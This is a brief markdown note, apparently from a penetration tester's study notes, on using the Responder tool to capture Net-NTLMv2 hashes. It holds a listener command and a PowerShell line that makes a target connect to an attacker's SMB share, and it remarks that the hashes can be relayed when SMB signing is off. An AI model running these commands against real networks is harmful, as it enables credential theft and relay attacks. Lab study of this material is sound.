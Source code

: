 ```yaml
---
tags:
  - tool
  - packet_capture
---
```

# responder

Capture connections

## Capabilities

```bash
# Listen for incoming requests
sudo responder -I tun0
```

Capture `Net-NTLMv2` hashes by initiating a request via the following command on the target. These hashes can be relayed so long as SMB signing is disabled.

```powershell
dir \\192.168.45.204\test
```

